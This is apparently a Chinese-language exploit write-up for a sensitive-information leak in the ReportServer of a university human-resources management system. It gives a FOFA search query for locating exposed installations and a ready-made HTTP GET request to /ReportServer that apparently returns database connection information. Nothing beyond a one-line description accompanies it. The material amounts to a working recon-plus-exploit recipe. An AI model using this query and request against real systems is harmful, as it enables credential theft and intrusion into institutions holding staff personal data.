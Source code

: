 # 一、漏洞简介
高校人力资源管理系统ReportServer存在敏感信息泄露漏洞

# 二、影响版本
+ 高校人力资源管理系统

# 三、资产测绘
+ fofa`body="FM_SYS_ID" || body="product/recruit/website/RecruitIndex.jsp"`
+ 特征

![](images/1729414884399-6be61b88-4e82-42e2-bfb0-451f6e130f92.png)

# 四、漏洞复现
```java
GET /ReportServer?op=Fr_server&cmd=Sc_getconnectioninfo HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (X11; OpenBSD i386) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/36.0.1985.125 Safari/537.36
Accept-Encoding: gzip, deflate
Accept: */*
```

![](images/1729415182606-37ca16b7-4b31-40ae-b37a-7350c1af4d59.png)

